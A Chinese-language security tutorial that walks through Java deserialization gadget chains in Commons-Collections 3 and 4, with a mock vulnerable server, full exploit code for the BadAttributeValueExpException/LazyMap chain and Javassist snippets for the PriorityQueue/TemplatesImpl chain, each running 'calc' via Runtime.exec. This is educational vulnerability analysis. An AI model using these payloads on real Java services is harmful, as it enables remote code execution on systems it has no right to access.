# 漫谈Commons-Collections反序列化

# 前言

   如果你没有反序列化的基础，建议你看笔者博客文章先将基础学习一下。如果你没有学习分析过`ysoserial--Gadget--URLDNS`，建议你看笔者之前发过的文章学习一下。如果你是大佬，前面当笔者没说。  
   Java的第一个反序列化漏洞就是从`commons-collections`组件中发现的，从此打开了Java安全的新蓝图。  
官方对`commons-collections`组件的说明：`The Java Collections Framework was a major addition in JDK 1.2. It added many powerful data structures that accelerate development of most significant Java applications. Since that time it has become the recognised standard for collection handling in Java.`  
翻译一下大概意思就是：`Java commons-collections 框架是JDK 1.2之后中的一个重要补充。增加了许多强大的数据结构，加快了Java应用程序的开发。已经成为Java中公认的集合处理标准。`  
   目前`commons-collections`的反序列化漏洞主要以3和4(版本)为主流，3和4的利用方式也不同，Gadget链也不相同。

PS: 为避免代码太长而导致的阅读效果，故将完整的实验代码全部已经上传至 <https://github.com/SummerSec/JavaLearnVulnerability>

---

# Commons-Collections3

   先看一下Gadget链，入口是上篇文章提及的。这里的3是指版本号，笔者这里只分析网上流传的某一条利用链。`BadAttributeValueExpException.readObject()`类。

```java
Gadget chain:
       ObjectInputStream.readObject()
           BadAttributeValueExpException.readObject()
               TiedMapEntry.toString()
                   LazyMap.get()
                       ChainedTransformer.transform()
                           ConstantTransformer.transform()
                           InvokerTransformer.transform()
                               Method.invoke()
                                   Class.getMethod()
                           InvokerTransformer.transform()
                               Method.invoke()
                                   Runtime.getRuntime()
                           InvokerTransformer.transform()
                               Method.invoke()
                                   Runtime.exec()
```

   试想一下先存在一个服务器，它正好存在使用`commons-collections`组件，没有做任何的修复，存在漏洞。此时你是不是就能利用此漏洞呢？

---

## **模拟场景DEMO**

### 创建模拟服务器应用

```java
public class server {
    public static void main(String[] args) {
        // 模拟服务器端，接受反序列化数据
        try {
            ServerSocket serverSocket = new ServerSocket(6666);
            System.out.println("服务器监听地址： " + serverSocket.getLocalSocketAddress());
            while (true){
                // 接受反序列化数据

                Socket socket = serverSocket.accept();
                System.out.println("与地址： " + socket.getInetAddress() + "连接！" );
                ObjectInputStream ois = new ObjectInputStream(socket.getInputStream());
                try {
                    // 读取数据
                    Object ob = ois.readObject();
                    System.out.println("读取数据完成！");
                    System.out.println(ob);

                } catch (ClassNotFoundException e) {
                    System.out.println("读取数据失败！");
                    e.printStackTrace();

                }
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

### 利用代码

```java
public class user {
    public static void main(String[] args) throws Exception {
        //目的服务器地址
        String tas = "127.0.0.1";
        // 端口
        int port = 6666;
        // payload
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}
                ,new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}
                ,new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
                new ConstantTransformer("66666!")

        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        // 创建漏洞map Object
        Map inmap = new HashMap();
        Map lazymap = LazyMap.decorate(inmap,transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazymap,"hack by Summer");

        // 创建异常，在反序列化时触发payload
        BadAttributeValueExpException expException = new BadAttributeValueExpException(null);
        try {
            Field field = expException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(expException, entry);
        } catch (NoSuchFieldException | IllegalAccessException e) {
            e.printStackTrace();
        }

        // 发送payload
        Socket socket = new Socket(tas,port);
        ObjectOutputStream oos = new ObjectOutputStream(socket.getOutputStream());
        oos.writeObject(expException);
        oos.flush();

    }

}
```

### 漏洞效果

首先得让模拟服务器在运行，然后发送payload即可。  
  


---

### 漏洞分析

   分析必定要先断点，这里笔者将代码修改了，便于分析。这里就不再贴出，需要的可以去[GitHub](https://github.com/SummerSec/JavaLearnVulnerability/blob/master/vuldemo/src/main/java/vul/ccbug/cc5.java)上自取，断点直接设置在`readObject`方法。  
`温馨提示`：如果你用的是Idea工具，在Debug之前请查看自己Debugger设置，请和我一样设置。为什么要这么做可以参考：[Skipped breakpoint because it happened inside debugger evaluation](https://samny.blog.csdn.net/article/details/105937958) ，否则你可能出现很多bug。  
  


---

#### 漏洞触发流程

1. 一直跟进，到`BadAttributeValueException.java`的`readObject`方法。

  
2. toString方法会跳转到`TiedMapEntry`的toString方法  
  
3. 跟进getValue()方法  
  
4. 跟进到get()方法，在get方法中，会判断`key`是否存在。然后跳转到`transform(key)`，这里的key是随便填写的，主要是transform方法是被修改过的，里面有恶意payload。  


  
5. 这里是用Java的反射机制，建议去了解一下。推荐博文[从安全角度谈Java反射机制](https://blog.csdn.net/sun1318578251/category_9977685.html)  
  


  
   看完整个完整的过程，每一步都对应着文章开头的Gadget chain。创建异常类`BadAttributeValueExpException`，以便于在反序列化时触发payload。  


---

#### 漏洞成因分析

   过程看完了，但是我们还是无法理解为什么可以这么构造，还是得一步步看POC源码。我们一一对着官方文档分析函数方法的具体作用。

1. ChainedTransformer将一个个Transformer类数组按照顺序一个个执行，前一个运行结果作为第二个transform。  
   
2. ConstantTransformer调用transform方法，返回类在实例化时存储的类。  
   
3. InvokerTransformer调用transform方法的时候，根据类在实例化时提供的参数，通过反射去调用对象的方法。InvokerTransformer第一个参数是方法名，第二个参数是参数类型，第三个参数是参数值。

```java
public InvokerTransformer(java.lang.String methodName,
                          java.lang.Class[] paramTypes,
                          java.lang.Object[] args)
```

  
   这是一段反射执行命令的代码，这段执行的效果完全等效于transformers[]数组，下面两张图片可以完美的诠释。

```
Class cls = Class.forName("java.lang.Runtime");
           //实例化对象
          Object ob = cls.getMethod("getRuntime",null).invoke(null,null);
           // 反射调用执行命令
           cls.getMethod("exec", String.class).invoke(ob,"calc");
```





---

   创建一个HashMap，使用LazyMap.decorate()方法传入HashMap和Transformer数组。其中数组是我们构造的payload，最后使用TiedMapEntry传入一个key。其实也可以这样子`lazymap.get("Summer")`也可以传入key，这样子会在序列化过程就将key写入，而在反序列化的时候不会调用`LazyMap.get()`方法，判断key是否存在。不存在则会调用`this.factory.transform(key);`方法，进而触发反序列化漏洞。所以很显然这种方法不可取，只能通过修改底层的方式，加入key值，以便于在反序列化的时候触发漏洞，并同时确保在序列化的过程不会触发漏洞。

```java
Map inmap = new HashMap();
      Map lazymap = LazyMap.decorate(inmap,transformerChain);
      TiedMapEntry entry = new TiedMapEntry(lazymap,"hack by Summer");
```

  
   到目前为止，并没有触发反序列化漏洞的入口。而`BadAttributeValueExpException`这个类是javax.management报下的一个类，是jdk自带的，无需依赖第三方。它继承了Serializable接口满足反序列化漏洞的条件，它只有一个值权限是private不可修改，但利用反射机制修改其值来到达触发反序列化漏洞的目的。

```java
BadAttributeValueExpException expException = new BadAttributeValueExpException(null);
       try {
           Field field = expException.getClass().getDeclaredField("val");
           field.setAccessible(true);
           field.set(expException, entry);

       } catch (NoSuchFieldException | IllegalAccessException e) {
           e.printStackTrace();
       }
```

---

## 小结

   反序列化利用点是使用`LazyMap`在获取key值的时候，使其key不存在，然后再获取key的时候触发漏洞。但需要有一个入口，这里的反序列化触发的入口是JDK自带的`BadAttributeValueExpException`类。有几个点不得不服大佬们的厉害之处，第一点是找到反序列化的入口`BadAttributeValueExpException`，这个类得满足反序列化的基本条件，还得是JDK自带或者是组件自带的。第二点是使用`LazyMap`的key为空来触发反序列化漏洞。  


---

# Commons-Collections4

先看一下Gadget链，入口是JDK自带的`PriorityQueue.readObject()`。

```java
Gadget chain:
    ObjectInputStream.readObject()
        PriorityQueue.readObject()
            ...
                TransformingComparator.compare()
                    InvokerTransformer.transform()
                        Method.invoke()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                    TemplatesImpl.defineTransletClasses()
                                        Runtime.exec()
```

   断点撸码，断点的位置对于新手可能有点不知道该从何下手，其实掌握一点，看入口，反序列化的入口。`Commons-Collections4`这里的入口时`PriorityQueue.readObject()`方法，这时你可以双击`Shift`，找到该类在readObject下断点。  
  
   去掉注释，也就省这么几行代码。自己结合官方文档分析一下就知道该断在哪里，如果你在知道具体步骤，你可以将每一行都设置个断点进行分析。

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();
        s.readInt();
        queue = new Object[size];
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();
        heapify();
    }
```

## 漏洞分析

### 漏洞触发流程

1. 从ObjectInputStream.readObject()->PriorityQueue.readObject()->heapify()方法  
   
2. 接着会执行heapify()->sifrDown()  
   
3. sifrDown()->comparator不为空进入siftDownUsingComparator()方法  
   
4. if判断是否<=0是触发漏洞  
   
5. compare方法会执行transformer的transform方法，而transform通过反射机制被修改过，最后会导致反序列化漏洞。  
     
   

---

### 漏洞成因分析

[完整的实验代码地址https://github.com/SummerSec/JavaLearnVulnerability/blob/master/vuldemo/src/main/java/vul/ccbug/CC4\_1.java](https://github.com/SummerSec/JavaLearnVulnerability/blob/master/vuldemo/src/main/java/vul/ccbug/CC4_1.java)  
   Javaassist被广泛用于修改字节码的工具包，而此gadget chain中使用修改字节码的形式触发漏洞。一个 CtClass (编译时类）对象可以处理一个 class 文件，ClassPool 是 CtClass 对象的容器。

```java
// 获取默认系统类搜索路径
ClassPool pool = ClassPool.getDefault();
// 添加额外的类搜索路径
      pool.insertClassPath(new ClassClassPath(Payload.class));
      pool.insertClassPath(new ClassClassPath(abstTranslet));
      // 获取我们恶意payload的对象
      final CtClass clazz = pool.get(Payload.class.getName());
```

   修改好字节码后，在通过一系列的反射方法，将构造好的字节加入`tamplates`中，在反序列化的过程触发漏洞。反射这里就不过多的解释，如果不懂可以看笔者往期的博文。

```java
      // 静态初始化时插入执行命令的字节码
      String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
      clazz.makeClassInitializer().insertAfter(cmd);
// 将初始化后的类设置新的名字
      clazz.setName("Summer" + System.nanoTime());
      // 设置父类为AbstractTranslet
      CtClass superC = pool.get(abstTranslet.getName());
      clazz.setSuperclass(superC);
// 获取修改后的字节码
      final byte[] classBytes = clazz.toBytecode();
```

   其实将第二个占位只要是Object的类型对象就可以，比例可以是`tpl.newInstace()`

```java
// 这里queue要占两个位，比较方法是要两个才能比较
      // 两个位的都要是一个类型，这里都是Object
      queue.add(templates);
      queue.add(new VerifyError("Summer"));
```

  修改字节码之后我们再看看`newTransformer()`–>`TemplatesImpl.getTransletInstance()` 方法。  
  
   `getTransletInstance()`–>`defineTransletClasses()`，这里会返回一个定义主类的类对象的引用。  
  
   最后在这里的强制类型转化触发漏洞，到达执行命令的效果。  
  


---

## 小结

`PriorityQueue`原本只是个优先队列，`TemplatesImpl`原本只是在xalan中的处理xml的模板实现，但是经过大佬之手二者结合产生巨大效果。吾不敢不服，下面只想用一图展现笔者对此gadget的思考。  


---

# 总结

   看完其实不难发现，Java反序列化漏洞必然离不开Java的反射机制的作用。这种都是底层的Java语言的开发者所想到便于开发的机制，下图是oracle官方给出的图例，笔者觉得如果想要打开一个新方向必然会用到一种“新”机制，这种机制应该还是开发人员经常使用的。  
  
   一个新的Gadget的产生构造笔者有几点愚见，如有错误还望海涵。

1. 一个JDK自带的实现`Serializabe`接口
2. 必然离不开Java反射机制
3. readObject()方法

---

# 参考

<https://tool.oschina.net/apidocs/apidoc?api=commons-collections>  
<https://paper.seebug.org/1195/>  
<http://blog.orleven.com/2017/11/11/java-deserialize/>  
<https://xz.aliyun.com/t/7031#toc-5>  
<https://blog.csdn.net/chenwan8737/article/details/100716015>  
<https://blog.csdn.net/weixin_33802505/article/details/92214760>  
<https://blog.csdn.net/21aspnet/article/details/81671777>  
<https://xalan.apache.org/xalan-j/apidocs/index.html>
